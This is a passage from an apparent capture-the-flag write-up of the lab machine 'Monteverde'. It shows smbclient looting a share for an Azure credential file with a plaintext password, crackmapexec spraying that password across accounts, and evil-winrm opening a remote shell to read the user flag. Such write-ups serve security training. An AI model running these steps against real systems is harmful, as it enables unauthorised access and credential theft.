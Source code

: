 Let's find is there are valuable files in `users$` share.

```
$ smbclient '\\10.10.10.172\users$' -U 'SABatchJobs'
Unable to initialize messaging context
Enter WORKGROUP\SABatchJobs's password:
Try "help" to get a list of possible commands.
smb: \> recuse on
recuse: command not found
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
getting file \mhope\azure.xml of size 1212 as azure.xml (4,8 KiloBytes/sec) (average 4,8 KiloBytes/sec)
```

Let's read `/mhope/azure.xml`:

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

It seems a password is leaked, let's try credential stuffing: maybe we can
re-use one of the accounts.

```
$ cme smb 10.10.10.172 -u ../users.txt -p '4n0therD4y@n0th3r$'
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK\AAD_987d7f2f57d2:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK\mhope:4n0therD4y@n0th3r$
```

Cool `mhope` is using this password too.

As winRM port is open, we can authenticate and gain shell access with
[evil-winrm][evil-winrm].

```
$ evil-winrm -i 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents> gc ../Desktop/user.txt
4961976bd7d8f4eeb2ce3705e2f212f2
```
